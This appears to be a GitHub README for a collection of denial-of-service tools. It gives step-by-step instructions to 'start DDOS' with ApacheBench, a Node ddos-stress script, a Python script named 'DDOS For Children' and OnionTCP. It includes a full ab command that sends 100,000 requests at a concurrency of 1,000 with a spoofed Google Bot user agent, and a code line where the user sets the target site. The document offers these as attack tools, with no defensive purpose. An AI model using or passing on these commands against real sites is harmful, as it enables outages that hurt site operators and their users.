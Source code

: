 # DDOS Tool

<!-- ![screenshot_one](./screenshot/screenshot.png) -->

![screenshot_two](./screenshot/screenshot1.png)
<br/><br/><br/><br/>

# ApacheBench

_you can start DDOS by following these steps:_
<br/>
**1. Write that command**
```bash
ab -n 100000 -c 1000 -k -r -H "User-Agent: Google Bot"  https://exemple.com/
```


<br/><br/><br/><br/>



# ddos-stress

_you can start DDOS by following these steps:_
<br/>
**1. cd ddos-stress**
<br/>
**2. npm install**
<br/>
**3. change link in code**
```javascript
stress.run('https://test.com',100);
```
<br/>

**4. node ddos-stress.js**


<br/><br/><br/><br/>



# DDOS For Сhildren
_you can start DDOS by following these steps:_
<br/>
**1. cd DDOS-For-Сhildren**
<br/>
**2. python DDOS-For-Сhildren.py**


<br/><br/><br/><br/>



# OnionTCP
_you can start DDOS by following these steps:_
<br/>
**1. cd OnionTCP**
<br/>
**2. python OnionTCP.py**



